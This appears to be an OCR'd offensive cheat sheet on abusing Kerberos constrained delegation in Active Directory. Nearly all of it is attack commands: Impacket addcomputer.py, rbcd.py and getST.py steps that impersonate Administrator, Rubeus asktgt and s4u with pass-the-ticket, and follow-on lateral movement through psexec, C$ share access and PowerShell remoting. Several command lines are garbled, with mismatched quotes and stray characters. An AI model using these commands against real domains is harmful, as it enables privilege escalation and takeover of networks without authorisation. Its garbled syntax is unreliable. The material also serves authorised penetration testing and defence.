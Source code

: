 # Constrained Delegation

## Tools: Rubeus , rbcd.py , addcomputer.py , getST.py

### Object: msDS-AllowedToDelegateTo

### UACs TRUST_TO_AUTH_FOR_DELEGATION (With protocol transition (any)) / TRUSTED_FOR_DELEGATION (Without protocol transition (kerberos only))

# 1) Without protocol transition (kerberos only)  msDS-AllowedToDelegateTo TRUSTED_FOR_DELEGATION

    addcomputer.py -computer-name 'RBCD_COM$' -computer-pass 'RBCD_COM_PASSWORD' -dc-ip DC -DOMAIN/USER:PASSWORD' (RBCD)

    rbcd.py -delegate-from 'RBCD_COM$' -delegate-to 'CONSTRAINED$' -dc-ip -'DC' -action 'write' -hashes 'HASH DOMAIN/CONSTRAINED$ (For Self RBCD, Skip the 1st step entirely)

    getST.py -self -impersonate "administrator" -dc-ip IP DOMAIN/RBCD_COM$':'RBCD_COM_PASSWORD'

    getST.py -spn host/CONSTRAINED -hashes 'HASH' 'DOMAIN/COMPUTER_ACCOUNT' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

    getST.py -spn CONSTRAINED_SPN/TARGET -hashes 'HASH' 'DOMAIN/CONSTRAINED$' -impersonate Administrator --dc-ip DC_IP -additional-ticket PREVIOUS_TICKET

#### This technique gives a Kerberos TGS (Service ticket)

# 2) (With protocol transition (any)) msDS-AllowedToDelegateTo TRUST_TO_AUTH_FOR_DELEGATION

    Rubeus hash /password:PASSWORD

## OR 

    Rubeus asktgt /user:USER /domain:DOMAIN /aes256:AES_256_HASH

    Rubeus s4u /ticket:TICKET /impersonateuser:ADMIN_USER /msdsspn:SPN_CONTRAINED /altservice:CIFS /ptt (Choose the altservice below to use with rubeus)

### Altservice:

#### 1) HOST

    psexec \\\TARGET CMD

#### 2) CIFS

    dir \\TARGET\c$

#### 3) HTTP

    Enter-Pssession -computername TARGET

## OR 

    Invoke-Command TARGET -Scriptblock {COMMAND}

#### 4) LDAP (No interactions)

### This attack gives a Kerberos TGS (Service Ticket)

